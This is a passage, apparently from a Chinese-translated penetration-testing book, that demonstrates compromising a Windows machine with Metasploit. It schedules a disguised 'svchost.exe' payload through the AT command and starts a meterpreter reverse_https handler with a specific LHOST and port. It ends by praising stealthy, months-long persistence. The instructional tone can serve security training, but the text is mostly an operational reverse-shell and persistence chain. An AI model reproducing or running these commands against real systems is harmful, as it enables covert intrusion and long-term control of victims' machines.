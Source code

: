 | `-h` | `--help` |  | 显示此消息 |
|  | `--help-formats` |  | 列出可用的格式 |

下面的屏幕截图显示了命令的输出。`msfvenom`表明没有使用编码器，也没有检查构建中实现的坏字符。对于本演示，不需要它们：

![](img/3e1676cc-08b2-4d69-8f8d-0ca3f078f49a.png)

现在，通过运行`ls`命令，我们可以看到我们的文件：

![](img/d691b71a-d30d-485e-ab9c-9f5c3c102ced.png)

现在我们有东西要上传。与 Ncat 示例一样，我们将使用系统的内部妥协来上传我们的漏洞：

![](img/88154cef-8391-4a74-b654-6e58255622c3.png)

与 Ncat 一样，我们将进入受害者机器并设置`AT`命令以运行`svchost13.exe`：

```
shell
AT 5:25PM c:\windows\svchost.exe
exit  
```

下午 5:25 前，登录邪恶服务器`//rogue3`。启动 Metasploit 服务`msfconsole`，设置并运行侦听器以接受连接。然后使用以下命令设置公共处理程序模块：

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 128.199.190.69
set LPORT 443
exploit  
```

运行该漏洞攻击后，处理程序将开始监听端口`443`上的连接，等待无助的受害者呼叫总部。等了一会儿，我们看到一个连接从`69.131.155.226`出现。这是我们的受害者机器后面的防火墙地址。然后，处理程序向系统提供一个命令提示符。运行 meterpeter 命令`sysinfo`，我们可以看到名称和机器信息。从这里开始，你可以完全控制！

真正的攻击者可能会利用此漏洞进行攻击，并且在数月内不会回来。出现问题的唯一迹象就是每天下午 5:25 一个连接断开并出现故障。只是网络上的一个小插曲。
